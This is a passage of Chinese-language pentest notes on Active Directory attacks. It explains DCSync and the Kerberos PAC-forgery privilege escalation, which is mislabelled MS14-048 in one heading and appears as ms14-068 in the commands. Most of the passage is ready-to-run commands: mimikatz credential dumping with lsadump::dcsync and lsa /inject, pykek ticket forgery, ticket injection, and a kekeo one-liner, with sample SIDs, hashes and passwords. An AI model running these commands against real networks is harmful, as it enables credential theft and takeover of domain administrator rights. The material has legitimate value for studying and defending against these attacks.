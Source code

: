 ```bash
    需要注意的是只读域控制器默认是不允许读取用户密码数据的。

    DCSync 是何如工作的:

        a. 使用指定的域名称发现域控制器。
        b. 请求域控制器通过 DSGetNCChanges 复制用户凭据利用目录复制服务DRS远程协议
        DCSync 选项:
        /user - 要拉取数据的用户的 id 或 SID
        /domain可选的 Active Directory 域的 FQDN 域名,Mimikatz 会发现域中的一个 DC 并去连接。如果不提供该参数,Mimikatz 会默认设置为当前域。
        /dc可选的指定你想要使用 DCSync 连接并收集数据的域控制器。
        另外还有一个/guid参数。
        DCSync 命令行示例:
        拉取 demo.local域中的 krbtgt / testwin7 / administrator 用户帐户的密码数据:
        Mimikatz "privilege::debug" "lsadump::dcsync /domain:demo.local /user:testwin7" exit
```

## MS14-048 (限制条件:打了补丁或者域中有Win2012/2012R2 域控)

允许域内任何一个普通用户，将自己提升至域管权限。

作为普通用户向域控请求一个没有PAC的Kerberos TGT认证的票据，域控会返回一个TGT(不包含PAC，PAC通常包含有用户组中的成员关系)

生成一个伪造的PAC，因为没有密钥，所以生成的PAC”被标记”有MD5算法，而不是带有域用户密码数据的HMAC_MD5类型。

把伪造的PAC结合上TGT构造认证数据，作为TGS服务的一部分发送到域控。

域控会混淆构造的数据，所以直接丢弃之前用户发送没带有PAC的TGT，然后新构造一个TGT并用自己的认证数据插入到伪造的PAC当中，再把新TGT发送给用户

这样带有伪造PAC的TGT就能使用户成为有漏洞域控上的域管理员。

```bash
1. mimikatz从域控上面抓取到所有账户信息
    mimikatz # log
    Using 'mimikatz.log' for logfile : OK
    mimikatz # privilege::debug
    Privilege '20' OK
    mimikatz # lsadump::lsa /inject
    ......
2. https://github.com/bidord/pykek
    C:\pykek-master>python ms14-068.py -u testwin7@demo.local -s S-1-5-21-1239069908-882060383-2558203358-1130 -d owa2010dc.demo.local  -p 1qaz$RFV --rc4 6df9f68e4b0656fa9ffd91d250506f8f
    [+] Creating ccache file 'TGT_testwin7@demo.local.ccache'... Done!]
3. mimikatz # kerberos::ptc TGT_testwin7@demo.local.ccache (利用mimikatz注入高权限TGT的缓存证书)
```

列举缓存证书的命令klist

或者使用 kekeo
kerberos::purge or klist purge(为了让我们自己生成的票据生效，需要我们先用mimikatz将内存中的票据清空)

```bash
kekeo.exe # exploit::ms14068 /domain:demo.local /user:testwin7 /password:1qaz$RFV /sid:S-1-5-21-1239069908-882060383-2558203358 /rid:1130 /kdc:owa2010dc.demo.local /ptt (接着使用域、普通域用户名和密码生成票据)
http://www.mottoin.com/95877.html
```
